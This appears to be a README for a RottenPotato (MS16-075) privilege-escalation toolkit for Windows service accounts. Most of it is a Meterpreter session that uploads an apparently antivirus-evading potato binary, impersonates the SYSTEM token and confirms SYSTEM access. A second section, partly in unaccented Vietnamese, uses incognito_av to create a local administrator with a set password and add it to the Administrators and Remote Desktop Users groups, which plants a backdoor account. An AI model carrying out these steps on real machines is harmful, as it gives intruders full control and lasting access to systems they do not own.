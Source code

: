 # MS16-075 

- The potato.exe was from [@FoxGlove](https://github.com/foxglovesec/RottenPotato)
- For a technical overview of this [exploit]( https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Vulnerability reference:
 * [MS16-075](https://technet.microsoft.com/library/security/MS16-075)
 

## RottenPotato

Local Privilege Escalation from Windows Service Accounts to SYSTEM

## Videos for example
- [SQL Server](https://www.youtube.com/watch?v=3CPdKMeB0UY) 
- [IIS](https://www.youtube.com/watch?v=wK0r-TZR7w8)

## Usage of msf
```powershell
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > getprivs
meterpreter > upload  potato_av.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato_av.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

***
- It is important to impersonate the token (or run list_tokens -u) quickly after runnning the binary.
- It is also important to follow the order of the steps. 
- Make sure you "use incognito" before running the binary.

***

## Usage incognito_av
- Upload potato_av va incognito_av len server
- Chay potato_av.exe nhieu lan
- Chay incognito_av
```powershell
incognito_av.exe list_tokens -u
incognito_av.exe add_user localadmin 123qwebca@a63811
incognito_av.exe add_localgroup_user administrators localadmin
incognito_av.exe add_localgroup_user "remote desktop users" localadmin
```

